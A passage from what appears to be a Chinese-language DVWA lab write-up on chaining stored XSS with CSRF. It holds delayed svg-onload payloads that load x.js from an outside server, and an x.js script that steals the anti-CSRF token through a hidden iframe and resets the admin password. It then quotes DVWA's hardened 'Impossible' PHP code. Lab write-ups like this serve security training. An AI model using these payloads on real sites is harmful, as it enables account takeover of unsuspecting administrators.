 发现成功了！！！x.js 被成功加载了。但多次加载还是有问题

使用延时，人工干预执行时序
```js
<svg/onload="setTimeout(function(){s='&#115;&#99;&#114;&#105;&#112;&#116;'},3000)">
<svg/onload="setTimeout(function(){j=document.createElement(s)},4000)">
<svg/onload="setTimeout(function(){j.src='http://<服务器B>/x.js'},5000)">
<svg/onload="setTimeout(function(){document.body.appendChild(j)},6000)">
```
稳定触发

下面修改 x.js
```js
ifr = document.createElement('iframe');
ifr.src="../csrf";
ifr.hidden=1;
document.body.appendChild(ifr);
setTimeout(function(){f=frames[0];t=f.document.getElementsByName('user_token')[0].value;i=document.createElement('img');i.src='../csrf/?password_new=admin&password_conf=admin&Change=Change&user_token='+t;},3000)
```

当管理员访问留言板 XSS-Stored 时候：
1. 会先加载 `x.js`
2. `x.js` 内的脚本内容，会创建一个隐藏的 `iframe` 标签到 `DOM`
3. 等待 `iframe` 创建完成之后，便通过创建一个 `img` 标签，自动触发修改密码的请求

### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$pass_curr = $_GET[ 'password_current' ];
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Sanitise current password input
	$pass_curr = stripslashes( $pass_curr );
	$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_curr = md5( $pass_curr );

	// Check that the current password is correct
	$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
	$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
	$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
	$data->execute();

	// Do both new passwords match and does the current password match the user?
	if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
		// It does!
		$pass_new = stripslashes( $pass_new );
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database with new password
		$data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
```